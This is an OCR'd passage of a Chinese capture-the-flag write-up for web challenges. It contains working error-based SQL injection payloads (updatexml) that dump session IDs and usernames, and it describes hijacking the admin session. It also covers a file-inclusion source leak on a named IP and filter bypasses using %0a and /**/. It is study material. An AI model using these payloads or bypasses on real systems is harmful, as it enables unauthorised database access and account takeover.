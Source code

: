 user表有id,username,session_id三个列

直接查session_id

```
title=title=s' or updatexml(0,(SELECT group_concat(id,0x7e,session_id) FROM user),0) or '&content=s

```

得到admin的session_id为`MTM5OTYyNzY1Mg==`将⾃己的session改成admin的session,登陆进去后发现啥都没有。

继续注⼊入:

```
title=s' or updatexml(0,substring(concat(0x7e,(SELECT group_concat(username) FROM user)),30),0) or '&content=s

```

得到

```
jlflag{1_d0nt_11k3_5q1m4p}

```

### WEB300

提交`?password=flag`到达验证码识别的界面。

注意控制User-Agent和Referer,伪装成正常请求。

利用分布式⼈肉验证码识别系统完成。

### WEB400

注意到`http://121.40.150.205/web400/?page=index`这种格式,可能有文件包含。

尝试http://121.40.150.205/web400/index能下载得到index文件。

查看登陆页面源码http://121.40.150.205/web400/?page=test

得到提⽰

```
<!--action="./index.php?page=login" -->

```

访问http://121.40.150.205/web400/login得到登陆源码

其中进⾏了一个正则检查只允许字母数字和下划线

```
if (!preg_match('/^\w*$/m', $user) || !preg_match('/^\w*$/m', $pwd))

```

可用`%0a`绕过!

过滤了空格,可用`/**/`绕过
